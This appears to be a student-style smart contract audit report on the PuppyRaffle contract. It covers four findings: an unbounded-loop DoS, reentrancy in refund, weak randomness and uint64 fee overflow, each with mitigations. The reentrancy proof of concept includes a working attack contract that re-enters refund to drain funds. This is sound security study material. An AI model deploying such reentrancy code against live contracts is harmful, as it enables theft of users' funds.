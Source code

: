 # 1

## [M-#] TITLE (Root Cause + Impact)

Looping over an unbounded array in `PuppyRaffle::enterRaffle` can cause DoS

## Description:

DoS attack occurs when a tx is forcibly made to revert when in fact it is expected to pass through. This could be caused by increasing the gas cost of the execution or undesirable behavior due to failed external calls

## Impact:

Faciliates early participants of the raffle over the later ones since the later ones have to pay orders of magnitude higher cost than early players. Gas cost could exceed the maxGasLimit making the service unusable

M / H

## Proof of Concept:

```js

    function testIsDoS() public {
        vm.txGasPrice(1);
        address[] memory players = new address[](100);
        for (uint256 i = 0; i < 100; i++) {
            players[i] = address(i);
        }

        uint256 gasUsedBefore = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * 100}(players);
        uint256 gasUsedAfter = gasleft();
        uint256 gasUsed = (gasUsedBefore - gasUsedAfter) * tx.gasprice;

        console.log("Gas used for first 100: ", gasUsed);

        address[] memory players2 = new address[](100);
        for (uint256 i = 0; i < 100; i++) {
            players2[i] = address(i + players.length);
        }

        uint256 gasUsedBefore2 = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * 100}(players2);
        uint256 gasUsedAfter2 = gasleft();
        uint256 gasUsed2 = (gasUsedBefore2 - gasUsedAfter2) * tx.gasprice;

        console.log("Gas used for second 100: ", gasUsed2);

        assert(gasUsed2 > gasUsed);
    }
```

## Recommended Mitigation:

- we could loop through a bounded array OR maintain a mapping to check for already existing players

# 2

## [H-#] TITLE (Root Cause + Impact)

Reentrancy Attack Vector present in `PuppyRaffle:refund` which could drain the smart contract

## Description:

Due to the function not following the CEI pattern, external call is made before making the necessary state changes, exposing a vulneraability for Reentrnacy by an attacker

## Impact:

All the Funds in the wallet could be drained

H

## Proof of Concept:

```js

    contract AttackContract {
    PuppyRaffle puppyRaffle;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
    }

    fallback() external payable {
        if (address(puppyRaffle).balance > 0) {
            uint256 playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
            puppyRaffle.refund(playerIndex);
        }
    }

    function attack() public {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: 1e18}(players);

        uint256 playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(playerIndex);
    }
}


    function testReentrancy() public playerEntered {
        AttackContract attackContract = new AttackContract(puppyRaffle);
        vm.deal(address(attackContract), 1 ether);
        attackContract.attack();
        uint256 contractBalance = address(attackContract).balance;
        assertEq(address(puppyRaffle).balance, 0);
        assertEq(address(attackContract).balance, entranceFee * 2);
    }
```

## Recommended Mitigation:

- follow CEI pattern and reset player address to zero before making the external call 
OR
- use Reentrancy Guard form OZ

# 3

## [H-#] TITLE (Root Cause + Impact)

Weak RNG in the selectWinner func

## Description:

Weak Randomness in the `PuppyRaffle::selectWinner` method; random numbers are being produced by deterministic figures or influenceable figures like block.difficulty by miners

## Impact:

See `MeeBits` Attack

## Proof of Concept:

## Recommended Mitigation:

- Using off-chian distributed RNG via Chainlink VRF or commit-reveal schemes

# 4


## [M-#] TITLE (Root Cause + Impact)

Possible Integer Overflow in `PuppyRaffle:selectWinner` due to `totalFees` being uint64 (max value being 18446744073709551615); this would rollBack our fees to a smaller number makign hte protoocl loose funds

## Description:

`PuppyRaffle::totalFees` is uint64 with max value being 18446744073709551615 (18.something ETH) ; if we get a few more ETH as fees it would rollback to say 1 ETH making us loose 20ETH!!!! from fees


## Impact:

Could be huge probabilisitcally if hte totalFees are too high!


## Proof of Concept:

## Recommended Mitigation:

- Use uint256 for totalFees and ^0.8.0 compiler for overflow / underflow attacks
